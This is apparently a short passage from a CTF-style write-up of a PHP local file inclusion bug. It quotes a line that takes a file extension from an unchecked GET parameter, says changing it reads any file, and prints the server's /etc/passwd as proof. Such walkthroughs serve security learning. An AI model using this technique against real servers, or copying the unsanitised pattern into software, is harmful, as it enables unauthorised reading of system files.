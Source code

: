 
This line sets the extension ```$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';```

We can change this extension and get any file we want now

<img src="images/passwd.png">

<img src="images/passwd-2.png">

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```